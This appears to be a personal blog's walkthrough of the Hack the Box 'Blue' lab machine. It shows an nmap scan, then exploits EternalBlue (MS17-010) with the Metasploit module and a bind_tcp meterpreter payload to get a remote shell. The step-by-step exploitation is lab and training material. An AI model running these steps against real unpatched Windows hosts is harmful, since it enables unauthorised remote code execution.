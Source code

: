 ```yaml
---
title: Blue - Hack the Box
date: 2024-10-13 12:37:45 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Blue.png
---
```

![Image](/assets/Blue.png)

Blue is perhaps the most trademarked and popular box on the platform, and for good reason. It's a very easy and simple setup meant to test the attacker's understanding of metasploit, CVE research, and basic linux commands. There is no better place to start, so why don't we?
# Scan

Our Scan:
`nmap -sV -sC --open -p- 10.10.10.40` 

The Result:
```
Nmap scan report for 10.10.10.40
Host is up (0.13s latency).
Not shown: 64243 closed tcp ports (reset), 1283 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -19m56s, deviation: 34m34s, median: 1s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2024-09-03T00:23:26
|_  start_date: 2024-09-03T00:20:34
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC
|   Workgroup: WORKGROUP
|_  System time: 2024-09-03T01:23:29+01:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 118.69 seconds
```

Our NMAP scan gives us solid information. We've got host names, remote procedure call (RPC) ports, etc. The gem here lies in the smb scripts NMAP has run for us! We can see an outdated version of Windows 7, and upon further research, can recognize the vulnerability in MS17_010 or Eternal Blue. This will be our attack vector.

# Initial Access

In order to press on, we need to fire up msfconsole, and search for our proper exploit.

`search exploit/windows/smb/ms17_010_eternalblue` 

Once found, we can configure out options to reflect:

`RHOSTS: 10.0.10.40`
`RPORT: 445`
`LHOST: 10.0.2.15`
`LPORT: 4444`

Additionally, the `reverse/tcp` recommended payload kept throwing errors for me, so I opted for a `bind_tcp` meterpreter session instead.

`set payload windows/x64/meterpreter/bind_tcp`

This yields a shell:

![Image](/assets/Screenshot 2024-09-02 at 9.13.55 PM.png)

Now, we need to root around for a flag. Use `pwd` and `ls` to scope surroundings, and use `cd ../` to backtrack out of the nonsense. Once the users directory is found, navigate towards the desktop, where the flag resides. I'll let you grab these for yourself! 

#easy #windows #msfconsole 
